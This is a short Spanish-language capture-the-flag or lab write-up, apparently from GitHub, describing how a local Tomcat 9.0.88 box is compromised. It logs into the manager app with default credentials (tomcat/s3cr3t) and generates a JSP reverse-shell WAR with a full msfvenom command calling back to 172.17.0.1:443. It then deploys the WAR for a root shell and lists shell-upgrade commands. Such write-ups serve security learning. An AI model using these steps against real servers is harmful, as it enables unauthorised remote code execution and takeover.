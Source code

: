 
![[nmap pn.png]]
nmap: 8080

---
en la pagina: 172.17.0.2:8080 hay una  versión del de tomcat: # Apache Tomcat/9.0.88
como exploit a esa versión no encontré mucho, pero en la pagina hay un "manager apps"

![image](https://github.com/user-attachments/assets/70c49eae-589a-4499-a86f-57ab5e1b3201)


en: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
buscamos las credenciales por default para poder entrar al "manager app"
intentamos con las credenciales

![image](https://github.com/user-attachments/assets/b0026c05-43eb-4f66-b9e6-244a3cd725d4)

> las credenciales: tomcat/s3cr3t

entramos al "magaer app" con esas credenciales

encontramos la parte de WAR file to deploy, donde se suben archivos .war

![image](https://github.com/user-attachments/assets/3f06bccc-e4cf-4d75-b32f-4143b581aa5c)

para poder tener una conexión RCE utilizamos: msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war

lo lanzamos y nos crea un:   revshell.war
![[generado.png]]

lo subimos en archivos "WAR" y luego lo cargamos

al subirlo aparece aquí: llamado /revshell
![[subido.png]]

>colocamos el terminal en escucha y presionamos el archivo y estamos dentro ya como root!
![[root.png]]

hacemos un "stty"

       - script /dev/null -c bash
       - stty raw -echo; fg
       - reset xterm
       - export SHELL=bash && export TERM=xterm
       - stty rows numero colums numero 

y quedara así:
![[root sup.png]]
